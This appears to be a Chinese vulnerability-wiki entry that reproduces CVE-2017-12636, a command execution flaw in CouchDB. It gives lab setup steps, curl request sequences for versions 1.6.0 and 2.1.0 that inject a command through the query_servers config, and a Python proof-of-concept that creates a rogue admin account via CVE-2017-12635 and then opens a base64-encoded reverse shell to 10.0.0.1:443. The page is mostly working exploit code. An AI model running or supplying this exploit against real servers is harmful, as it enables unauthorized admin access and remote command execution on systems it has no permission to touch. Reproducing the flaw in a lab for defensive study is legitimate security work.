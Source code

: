 （CVE-2017-12636）Couchdb 任意命令执行漏洞
==========================================

一、漏洞简介
------------

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config
api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

二、漏洞影响
------------

小于 1.7.0 以及 小于 2.1.1

三、复现过程
------------

### 环境搭建

Couchdb
2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

    docker-compose up -d

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node
name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

    curl http://vulhub:vulhub@www.0-sec.org:5984/_membership

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId29.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId30.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
    curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'

Couchdb
2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

    curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12636)Couchdb任意命令执行漏洞/media/rId32.png)

    #!/usr/bin/env python3
    import requests
    import json
    import base64
    from requests.auth import HTTPBasicAuth

    target = 'http://your-ip:5984'
    command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
    version = 1

    session = requests.session()
    session.headers = {
        'Content-Type': 'application/json'
    }
    # session.proxies = {
    #     'http': 'http://127.0.0.1:8085'
    # }
    session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
      "type": "user",
      "name": "wooyun",
      "roles": ["_admin"],
      "roles": [],
      "password": "wooyun"
    }''')

    session.auth = HTTPBasicAuth('wooyun', 'wooyun')

    command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
    if version == 1:
        session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
    else:
        host = session.get(target + '/_membership').json()['all_nodes'][0]
        session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

    session.put(target + '/wooyun')
    session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

    if version == 1:
        session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
    else:
        session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')

参考链接
--------

> https://vulhub.org/\#/environments/couchdb/CVE-2017-12636/
